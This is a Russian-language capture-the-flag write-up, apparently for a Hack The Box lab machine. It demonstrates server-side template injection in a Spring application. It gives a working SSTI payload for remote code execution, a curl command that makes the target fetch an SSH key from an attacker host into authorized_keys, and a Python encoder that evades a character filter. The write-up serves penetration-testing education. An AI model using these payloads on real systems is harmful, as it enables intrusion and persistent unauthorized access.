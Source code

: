 Простыми словами, шаб­лон — это документ HTML, где в определенных мес­тах отме­чены перемен­ные и коман­ды, которые при генера­ции ито­говой стра­ницы должны быть замене­ны дан­ными. В том чис­ле это могут быть и дан­ные, которые получают от посети­теля сай­та.

Ата­ка зат­рагива­ет момент, ког­да полученная информа­ция объ­еди­няет­ся с шаб­лоном. Хакер фор­миру­ет стро­ку таким обра­зом, что­бы она не прос­то под­ста­вилась в шаб­лон, но была интер­пре­тиро­вана как код. Если это получается, то он добавит свои дирек­тивы, с помощью которых выпол­нит [эксфиль­тра­цию дан­ных](https://spy-soft.net/exfiltrate-data-over-screen-interfaces/) или даже зах­ват веб‑сер­вера.

Пер­вым делом нуж­но опре­делить исполь­зуемый шаб­лониза­тор, для чего я переби­раю раз­ные вари­анты по сло­варю.

![[Pasted image 20230212154954.png]]

И мы видим выпол­нение выраже­ния 7*7 при исполь­зовании шаб­лона *{}, харак­терно­го для Java-фрей­мвор­ка Spring. Что­бы получить уда­лен­ное выпол­нение кода (RCE) через Spring SSTI, исполь­зуем сле­дующую наг­рузку.

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

В интернете полезных нагрузок просто завалом, вы можете использовать другой из них. 

![[Pasted image 20230212155205.png]]

**Точка опоры**

У нас есть RCE, но при попыт­ке выпол­нить некото­рые дей­ствия, к при­меру получить или записать SSH-ключ, мы получа­ем ошиб­ку, что сим­волы филь­тру­ются.

```
curl http://10.10.11.170:8080/search -d 'name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.23/id_rsa.pub -o /home/woodenk/.ssh/authorized_keys").getInputStream())}'
```

![[Pasted image 20230212155319.png]]

Ошиб­ка при записи SSH-клю­ча

Сер­вер жалу­ется на невер­ные сим­волы. Давай тог­да закоди­руем вво­димую коман­ду, что­бы избе­жать их. Для сос­тавле­ния наг­рузки мы будем исполь­зовать вот такой генера­тор:

```
T(java.lang.Character).toString(<...>).concat(T(java.lang.Character).toString(<...>)).concat(...
```

Я написал на Python прос­той кодер команд:

```
import sys

data = sys.argv[1]

payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(" + str(ord(data[0])) + ")"

for i in data[1:]:

   payload += ".concat(T(java.lang.Character).toString(" + str(ord(i)) + "))"

payload += ").getInputStream())}"

print("curl http://10.10.11.170:8080/search -d 'name=" + payload + "'")
```
